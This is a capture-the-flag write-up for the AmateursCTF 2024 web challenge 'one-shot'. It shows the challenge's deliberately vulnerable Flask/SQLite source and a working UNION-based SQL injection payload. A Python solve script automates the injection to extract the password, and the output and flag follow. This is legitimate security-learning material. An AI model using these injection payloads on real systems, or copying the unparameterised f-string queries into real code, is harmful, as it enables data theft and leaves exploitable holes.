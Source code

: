 ```yaml
---
title: "one-shot"
description: "my friend keeps asking me to play OneShot. i haven't, but i made this cool challenge! "
pubDate: 2024-04-10
ctf: "AmateursCTF 2024"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/24-amateursctf/icon.png"
---
```


I was actually quite proud of how I solved this challenge, I thought the solution was interesting and made me experiment with some unique SQLi.

The challenge gives us an `app.py` and a `Dockerfile`.

Inside `app.py` was the following:
```python
from flask import Flask, request, make_response
import sqlite3
import os
import re

app = Flask(__name__)
db = sqlite3.connect(":memory:", check_same_thread=False)
flag = open("flag.txt").read()

@app.route("/")
def home():
    return """
    <h1>You have one shot.</h1>
    <form action="/new_session" method="POST"><input type="submit" value="New Session"></form>
    """

@app.route("/new_session", methods=["POST"])
def new_session():
    id = os.urandom(8).hex()
    db.execute(f"CREATE TABLE table_{id} (password TEXT, searched INTEGER)")
    db.execute(f"INSERT INTO table_{id} VALUES ('{os.urandom(16).hex()}', 0)")
    res = make_response(f"""
    <h2>Fragments scattered... Maybe a search will help?</h2>
    <form action="/search" method="POST">
        <input type="hidden" name="id" value="{id}">
        <input type="text" name="query" value="">
        <input type="submit" value="Find">
    </form>
""")
    res.status = 201

    return res

@app.route("/search", methods=["POST"])
def search():
    id = request.form["id"]
    if not re.match("[1234567890abcdef]{16}", id):
        return "invalid id"
    searched = db.execute(f"SELECT searched FROM table_{id}").fetchone()[0]
    if searched:
        return "you've used your shot."
    
    db.execute(f"UPDATE table_{id} SET searched = 1")

    query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")
    return f"""
    <h2>Your results:</h2>
    <ul>
    {"".join([f"<li>{row[0][0] + '*' * (len(row[0]) - 1)}</li>" for row in query.fetchall()])}
    </ul>
    <h3>Ready to make your guess?</h3>
    <form action="/guess" method="POST">
        <input type="hidden" name="id" value="{id}">
        <input type="text" name="password" placehoder="Password">
        <input type="submit" value="Guess">
    </form>
"""

@app.route("/guess", methods=["POST"])
def guess():
    id = request.form["id"]
    if not re.match("[1234567890abcdef]{16}", id):
        return "invalid id"
    result = db.execute(f"SELECT password FROM table_{id} WHERE password = ?", (request.form['password'],)).fetchone()
    if result != None:
        return flag
    
    db.execute(f"DROP TABLE table_{id}")
    return "You failed. <a href='/'>Go back</a>"

@app.errorhandler(500)
def ise(error):
    original = getattr(error, "original_exception", None)
    if type(original) == sqlite3.OperationalError and "no such table" in repr(original):
        return "that table is gone. <a href='/'>Go back</a>"
    return "Internal server error"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080)
```

So from reading this code, we have SQLi on the `query` parameter on `/search` (specifically seen in this line: `query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")`).

But we only get one character out from the start! ...right? Well the `fetchall()` and the `for` makes me think that we could exfiltrate the string character by character.

The payload I theorised was using an escape from the `LIKE` statement then using `' AND 1=2 UNION SELECT SUBSTRING(password,1,2) FROM table_{id} WHERE password LIKE '%'` and then stacking `UNION` statements to read the string line by line.

This works... kind of. They are sorted in no particular order so we have to do another way of distinguishing order. The way I thought of was to utilise the `SUBSTRING` with a different length at the end, so we will get increasing `*` in order. But, we encounter that the key starts using the same values again which gives us the same issue of not knowing what characters go where! Hmm...

I found from some research you can add a string to a variable in a query by doing the following: `(variable || "string")` and it will add it. So, the new SQL query modifies `password` to `(password | {'A'*32})` to make sure the string is long enough.

In the end I develop the following script to automate the solution (which I am quite proud of):
```python
import requests

HOST="http://one-shot.amt.rs"
LENGTH_OF_PASSWORD=32
table_id = requests.post(f'{HOST}/new_session').content.decode('utf-8').split('value="')[1].split('"')[0]

print(f"Got table id: {table_id}")

print('Generating payload...')

payload="' AND 1=2"
vals=[]
for x in range(1,LENGTH_OF_PASSWORD+1):
    payload+=f" UNION SELECT SUBSTRING((password || '{'A'*LENGTH_OF_PASSWORD}'), {x}, {x+1}) FROM table_{table_id} WHERE password LIKE '%'"
    vals.append("")
payload+="--"

print('Doing search to extract...')

search_res = requests.post(f'{HOST}/search',data={'id':table_id,'query':payload}).content.decode('utf-8')
password=""
for x in search_res.split('<li>'):
    if '</li>' in x:
        x=x.split('</li>')[0]
        vals[x.count('*')-1]=x.split('*')[0]
for x in vals:
    if x != "":
        password+=x
print(f"Got {password}, submitting...")

flag = requests.post(f'{HOST}/guess',data={'id':table_id,'password':password}).content

print(flag.decode('utf-8'))
```

```
$ python3 solve.py
Got table id: 833407575969098d
Generating payload...
Doing search to extract...
Got 44c64cd9ce505a528d9055f9b7279490, submitting...
<p>amateursCTF{go_union_select_a_life}</p>
<br />
<h3>alternative flags (these won't work) (also do not share):</h3>
<p>
... (i was told not to share, so i dont!)
</p>
```

Flag: `amateursCTF{go_union_select_a_life}`
